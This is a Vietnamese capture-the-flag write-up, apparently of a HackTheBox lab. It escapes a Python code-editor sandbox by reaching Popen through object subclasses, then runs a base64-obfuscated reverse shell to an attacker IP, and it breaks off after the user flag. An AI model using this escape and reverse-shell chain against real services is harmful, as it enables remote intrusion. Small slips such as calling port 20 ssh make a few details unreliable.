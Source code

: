 # Code

<img width="1103" height="801" alt="image" src="https://github.com/user-attachments/assets/5d17bf7c-09f7-44de-b35c-688df8383327" />

Đầu tiên thì đề cho cái địa chỉ ip là `10.10.11.62`, tôi sử dụng nmap để quét các port đang mở tại địa chỉ ip đó:
```
nmap -sV -p- -T5 10.10.11.62
```
Sau 1 lúc scan thì ra được 2 port gồm port 5000 và 20 trong đó 5000 là http và 20 là ssh:

<img width="993" height="302" alt="image" src="https://github.com/user-attachments/assets/7bf48765-b0ee-4687-b86f-cd766e3ddcbb" />

Sau khi truy cập vào thì thấy website là `Python Code Editor` với bên dưới là code python:

<img width="1804" height="1014" alt="image" src="https://github.com/user-attachments/assets/0c20915c-327e-4940-84b5-6c3d6fc64476" />

Khi sử dụng các từ khóa liên quan đến hệ thống như os, popen,... thì sẽ hiện ra dòng `Use of restricted keywords is not allowed.`

<img width="1524" height="222" alt="image" src="https://github.com/user-attachments/assets/323a7237-1fba-44f7-a953-26b9c6f30e81" />

<img width="1531" height="200" alt="image" src="https://github.com/user-attachments/assets/e37845f2-e0b3-40c7-ae93-7c0bbddd1294" />

Phần đăng nhập và đăng kí có vẻ không có lỗi gì, fuzzing cũng không có gì đặc biệt nên tôi nghĩ là ssti

Tôi sử dụng đoạn script này để tìm class `popen` có trong đó không mà không dùng đến import 
```
i=0

for c in [].__class__.__base__.__subclasses__():
    if c.__name__.lower() == 'pop'+'en':
        print(f"{i}-"+c.__name__)
    i+=1
```
<img width="1187" height="238" alt="image" src="https://github.com/user-attachments/assets/6deb46a6-10a7-4c65-96bd-36b6b9f3fff9" />

Khi tôi sử dụng `[].__class__.__base__.__subclasses__()[317](['pwd'])` thì không thấy trả về kết quả gì cả:

<img width="1166" height="483" alt="image" src="https://github.com/user-attachments/assets/f47975e1-ddfd-48b3-a25f-021183af30b7" />

Khả năng là nó chạy được nhưng không hiện ra, tôi thử làm cái reverse shell:

```
[].__class__.__base__.__subclasses__()[238](['bash','-c','echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTUvMTIzNCAwPiYx | base64 -d | bash'])
```

<img width="856" height="436" alt="image" src="https://github.com/user-attachments/assets/6841c0a9-595f-40eb-b107-e5a24c1cd2ba" />

Và đã đọc được nội dung của flag `user.txt`, trong quá trình khám phá thì có tìm được file `database.sql` sử dụng sqlite3:
